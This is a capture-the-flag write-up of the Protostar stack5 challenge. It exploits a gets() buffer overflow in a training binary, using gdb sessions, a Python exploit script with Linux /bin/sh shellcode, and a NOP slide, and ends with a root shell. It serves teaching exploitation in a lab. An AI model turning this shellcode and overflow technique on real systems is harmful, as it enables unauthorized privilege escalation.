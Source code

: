 ```yaml
---
title: Protostar Writeup - stack5
updated: 2018-08-07 15:30
---
```


## Protostar - stack5

This is one of my favorite challenges. We actually get to do something useful here. Our task is to execute shellcode.
Shellcode is nothing but a sequence of bytes, which when executed does some task. Note that this only works if the stack is executable.
This is true for older machines, however newer ones mitigate this vulnerability my making the stack non executable. We don't have to worry much about that.
So here's the code.

```c
```

Nothing useful overhere, except the fact that we have an exploitable `gets()` function. So our choice of attack is a buffer overflow. We know from the previous post, that we can overflow into the EIP. Thus controlling the codeflow.
Once we can do that, it's just a matter of redirecting control to our 'injected' shell code. First things first. Let's get the offset of the EIP. I'm using pwntools to generate the offset string.

```shell
(gdb) set disassembly-flavor intel
(gdb) disass main
Dump of assembler code for function main:
0x080483c4 <main+0>:	push   ebp
0x080483c5 <main+1>:	mov    ebp,esp
0x080483c7 <main+3>:	and    esp,0xfffffff0
0x080483ca <main+6>:	sub    esp,0x50
0x080483cd <main+9>:	lea    eax,[esp+0x10]
0x080483d1 <main+13>:	mov    DWORD PTR [esp],eax
0x080483d4 <main+16>:	call   0x80482e8 <gets@plt>
0x080483d9 <main+21>:	leave
0x080483da <main+22>:	ret
End of assembler dump.
(gdb) break *0x080483d9
Breakpoint 1 at 0x80483d9: file stack5/stack5.c, line 11.
(gdb) r
Starting program: /opt/protostar/bin/stack5
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaab

Breakpoint 1, main (argc=1633771893, argv=0x61616176) at stack5/stack5.c:11
11	stack5/stack5.c: No such file or directory.
	in stack5/stack5.c
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x61616174 in ?? ()
```

Finding `0x61616174` in the offset string we find the location of the EIP at 76 bytes. So our address to our shellcode goes after 76 bytes of padding.
Before we proceed let's take a look at the stack and figure out where to place our shell code.

```shell
$ python -c "print 'A' * 76 + 'ABCD'" > /tmp/exploit
$ gdb stack5
(gdb) break *0x080483d9
Breakpoint 1 at 0x80483d9: file stack5/stack5.c, line 11.
(gdb) r < /tmp/exploit
Starting program: /opt/protostar/bin/stack5 < /tmp/exploit

Breakpoint 1, main (argc=0, argv=0xbffff854) at stack5/stack5.c:11
11	stack5/stack5.c: No such file or directory.
	in stack5/stack5.c
(gdb) c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
0x44434241 in ?? ()
(gdb) x/24wx $esp
0xbffff7b0:	0x00000000	0xbffff854	0xbffff85c	0xb7fe1848
0xbffff7c0:	0xbffff810	0xffffffff	0xb7ffeff4	0x08048232
0xbffff7d0:	0x00000001	0xbffff810	0xb7ff0626	0xb7fffab0
0xbffff7e0:	0xb7fe1b28	0xb7fd7ff4	0x00000000	0x00000000
0xbffff7f0:	0xbffff828	0x87ea710a	0xadbd671a	0x00000000
0xbffff800:	0x00000000	0x00000000	0x00000001	0x08048310
```
We can probably choose anyone of these addresses, let's try the first one `0x0xbffff7b0`.
Below is the exploit script code.

```python
import struct

offset = 'A' * 76
address = struct.pack("I", 0xbffff7b0)
shellcode = 'jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80'

def go():
    print offset + address + shellcode

go()
```

Now let's run this and see what happens.

```shell
$ python /tmp/exploit.py | ./stack5
```

Oh oh!. Something's not right, we're getting an illegal instruction error. Let's take a look at it in the debugger.
We find something even more funny here, it works perfectly fine in the debugger.

```shell
$ python /tmp/exploit.py > /tmp/exploit
$ gdb stack5
(gdb) set disassembly-flavor intel
(gdb) disass main
Dump of assembler code for function main:
0x080483c4 <main+0>:	push   ebp
0x080483c5 <main+1>:	mov    ebp,esp
0x080483c7 <main+3>:	and    esp,0xfffffff0
0x080483ca <main+6>:	sub    esp,0x50
0x080483cd <main+9>:	lea    eax,[esp+0x10]
0x080483d1 <main+13>:	mov    DWORD PTR [esp],eax
0x080483d4 <main+16>:	call   0x80482e8 <gets@plt>
0x080483d9 <main+21>:	leave
0x080483da <main+22>:	ret
End of assembler dump.
(gdb) break *0x080483d9
Breakpoint 1 at 0x80483d9: file stack5/stack5.c, line 11.
(gdb) r < /tmp/exploit
Starting program: /opt/protostar/bin/stack5 < /tmp/exploit

Breakpoint 1, main (argc=795371626, argv=0x68732f2f) at stack5/stack5.c:11
11	stack5/stack5.c: No such file or directory.
	in stack5/stack5.c
(gdb) c
Continuing.
Executing new program: /bin/dash

Program exited normally.
```

This actually bugged me for quite some time. I found a solution to this in the reddit thread [here](https://www.reddit.com/r/LiveOverflow/comments/8pr5ox/problem_on_protostar_stack5/).
What happens is that when you execute a program, the OS even pushes the environment variables onto the stack.
Now when we run the executable outside gdb, the environment is different, and hence the shellcode gets misaligned.
To counter this we can use something called as a NOP slide. NOP is short for no instruction, which will basically do nothing.
The idea is that you set your EIP to an arbitrary address which you hope will land on the NOP slide.
We place our shellcode after the NOP slide, so when the NOPs are done executing, our shellcode is executed.
There is a little trick to choosing this arbitrary address and length of NOP slides, they should be a multiple of 4, else your shellcode will be misaligned.
This is what is happening to us outside gdb, our shellcode is getting misaligned, so let's fix it.
The below exploit is with a little trial and error, but you should get the idea.

```python
import struct

offset = 'A' * 76
address = struct.pack("I", 0xbffff7b0 + 16)
nopslide = '\x90' * 32
shellcode = 'jhh///sh/bin\x89\xe3h\x01\x01\x01\x01\x814$ri\x01\x011\xc9Qj\x04Y\x01\xe1Q\x89\xe11\xd2j\x0bX\xcd\x80'

def go():
	print offset + address + nopslide + shellcode

go()
```

Let's run it:

```shell
$ python /tmp/exploit.py | ./stack5
$
```

Ok, so no error this time. This begs the question, how do we use the shell, since it exits as soon as it is created.
The reason is that as the input stream closes the shell also exits. So we need a way to hold the input stream.
After digging around a little I came across this stackoverflow [post](https://reverseengineering.stackexchange.com/questions/13928/managing-inputs-for-payload-injection).

So using one of those techniques...

```shell
$ (python /tmp/exploit.py; cat) | ./stack5
id
uid=1001(user) gid=1001(user) euid=0(root) groups=0(root),1001(user)
whoami
root
```

Owned! We finally managed to get a shell with root privilages. I hope this gives you a taste of privilage escalation. This was by far the most fun exercise I've done. Hope you enjoyed this too :)

### Sites

[Protostar](https://exploit-exercises.com/protostar/)
[Phrack](http://phrack.org/issues/49/14.html)
